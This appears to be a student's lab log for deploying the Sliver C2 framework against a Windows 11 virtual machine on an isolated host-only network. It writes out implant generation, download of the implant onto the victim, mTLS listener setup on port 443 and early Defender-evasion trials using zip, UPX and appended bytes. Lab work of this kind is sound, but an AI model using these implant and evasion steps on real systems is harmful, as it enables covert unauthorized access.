## Our work assumes post-exploitation

### Notes for things I learned through the process:
- A C2 is only useful after an attacker has **already** compromised a target machine, and is able to traverse through the target to set up the implant for the C2 framework. This is because a C2 is only used to ensure future long-term access without needing to exploit the target each time.
- The implant must be running for the listener on the C2 server to connect to it.
- Windows Defender will detect implants and block them from running (this could be something to look at).
- Persistence: we need a way for the implant to keep running even after reboots or something else that causes it to stop.
- An implant that reconnects after reboots is essentially a backdoor. C2s relies on implants/backdoors but a backdoor does not necessarily involve a C2.
- Windows Defender is an AV, not a full EDR system.
- For Sliver, there are session implants and beacon implants. Session implants maintain a persistent connection, are ready to go, and are less stealthy. Beacon implants check in periodically, making them the stealthier option.
  
---

### Feb 14
I decided to use Windows 11 image for victim machine due to its wide usage in the world. Virtual machine so that it is in a controlled environment. I also changed the victim machine (w11vi) network settings to "Host-Only" by changing the Adapter to Host-Only Adapter. This is to keep the VM offline but open to C2 communication. I wanted to keep the VM offline because Caeland brought to my awareness that connecting the victim device to the internet opens it up to attacks from actual attackers and that may affect my host machine, which I didn't want. So by setting my victim's machine IP to 192.168.56.100 (192.168.56.x range since subnet mask is (255.255.255.0 (/24)) ) and its default gateway to 192.168.56.1 (my host IP), so that the host (C2 server) and victim can communicate.

---

### Setting up Sliver
1. Clone this repo: `git clone --recursive https://github.com/ChamberZ1/Sliver.git`
2. Build Sliver: `cd sliver && make`
   
---

### Feb 17
Testing out Sliver, I first ran the server: `sudo ./sliver-server`. I created an implant using `generate --mtls 192.168.56.1`, where:
- `--mtls` specifies to use Mutual TLS encryption for communication. From the Sliver documentation: "you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`." It is recommended to use `--mtls` or `--wg` where possible 
- Note: `192.168.56.1` is not my internet IP, but the IP of the VirtualBox Host-Only Adapter which acts as a gateway for the Linux (Host) machine and Windows (Victim) virtual machine to communicate.

The implant was saved to `/home/charlitos/sliver/`. I created an HTTP server using `python3 -m http.server 8080` to send the file to the Windows machine. I used `Invoke-WebRequest -Uri http://192.168.56.1:8080/implant_name.exe C:\Users\Public\any_name.exe` to receive the file on the Windows machine. However, Windows Defender was blocking it and so I temporarily disabled Windows Defender. Then, I ran the implant `any_name.exe` and went back to Sliver on the host device.

I set up a listener on Sliver using `mtls --lhost 192.168.56.1 --lport 443`. I used port 443 to try and blend in with normal internet traffic. 

I had to change some firewall permissions on my Linux device (specifically port 443 and 8080 from 192.168.56.100) to allow communication and file transfer between host and victim machine.

So it worked, I was able to execute commands on the victim machine, and open the shell to do more. I did receive a warning regarding "bad OPSEC" when I opened a shell. This basically means that what I did was easily detectable, so that's something I could look into.

Also, the implant works only as long as it is a running process. 

---

### Feb 28
My Objective now is to modify the implant in some way to get it onto the Windows machine without Defender noticing. If we can do that, we will then see if we can hit Defender with something to get it to let default implants to slip by.

So far, we are able to transfer the file onto Windows without Defender flagging it as long as it is zipped or using upx.

Modifying the implant: 
- I attempted to `echo "rndmdata123" >> implant.exe`, *insert reason and what this does*, this did not work.
- 
